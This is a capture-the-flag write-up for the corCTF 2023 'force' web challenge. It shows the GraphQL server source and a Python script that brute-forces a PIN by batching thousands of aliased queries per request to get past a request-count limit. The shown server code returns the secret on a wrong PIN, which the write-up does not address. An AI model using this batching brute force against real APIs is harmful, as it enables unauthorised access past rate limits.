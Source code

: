 ```yaml
---
title: 2023 corCTF - force
date: 2023-07-31 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_corCTF
  - Web Exploitation
  - GraphQL API vulnerabilities
---
```


## Overview

* 118 solves / 124 points
* author: larry

## Description

> Unbreakable vault door!

### Attached

[force.tar.gz](https://static.cor.team/uploads/a9d33f3445ab361cb58b31918d99a2a26f47b86dc55e77ee881d61a5d2bd2da7/force.tar.gz)

```javascript
import fastify from 'fastify'
import mercurius from 'mercurius'
import { randomInt } from 'crypto'
import { readFile } from 'fs/promises'

const app = fastify({
    logger: true
});
const index = await readFile('./index.html', 'utf-8');

const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

let requests = 10;

setInterval(() => requests = 10, 60000);

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});

app.get('/', (req, res) => {
    return res.header('Content-Type', 'text/html').send(index);
});

app.post('/', async (req, res) => {
    if (requests <= 0) {
        return res.send('no u')
    }
    requests --;
    return res.graphql(req.body);
});

app.listen({ host: '0.0.0.0', port: 80 });
```

## Analyzation

This challenge requires knowledge in [graphql](https://graphql.org/learn/queries/).

Check these lines
```javascript
const secret = randomInt(0, 10 ** 5); // 1 in a 100k??

await app.register(mercurius, {
    schema: `type Query {
        flag(pin: Int): String
    }`,
    resolvers: {
        Query: {
            flag: (_, { pin }) => {
                if (pin != secret) {
                    return secret;
                }
                return process.env.FLAG || 'corctf{test}';
            }
        }
    },
    routes: false
});
```

So we need to find the correct ```pin``` in 100k numbers.

The author limits the requests to 10
```javascript
let requests = 10;
```

The answer is so simple. Just send 10000 queries in 1 payload.

Got some troubles in queries? Check [stackoverflow.com](https://stackoverflow.com/questions/50462944/is-it-possible-to-query-the-same-field-multiple-times-with-graphql) and [graphql.org](https://graphql.org/learn/queries/#aliases).

## Solution

```python
import requests

FLAG_PREFIX = "cor"
URL = "https://web-force-force-40650221ed658a78.be.ax/"
headers = {
    'Content-Type': 'text/plain;charset=UTF-8',
}

payload = ''

for i in range(10 ** 5 + 1):
    payload = payload + 'i' + str(i) + ': flag(pin: ' + str(i) + ')\n'
    if i % (10 ** 4) == 0:
        print(i)
        payload = '{' + payload + '}'
        response = requests.post(URL, data=payload, headers=headers)

        if FLAG_PREFIX in response.text:
            index = response.text.find(FLAG_PREFIX)
            flag = ''
            while response.text[index] != '}':
                flag = flag + str(response.text[index])
                index += 1
            flag = flag + '}'
            print("flag: {}".format(flag))
            break
        payload = ''
```

The flag is (crazy)
```
corctf{S                T                  O               N                   K                 S}
```

(it contains a lot of space, yeah).

## Summarization

- [Graphql language](https://graphql.org/learn/queries/)
- [Graphql alias](https://graphql.org/learn/queries/#aliases)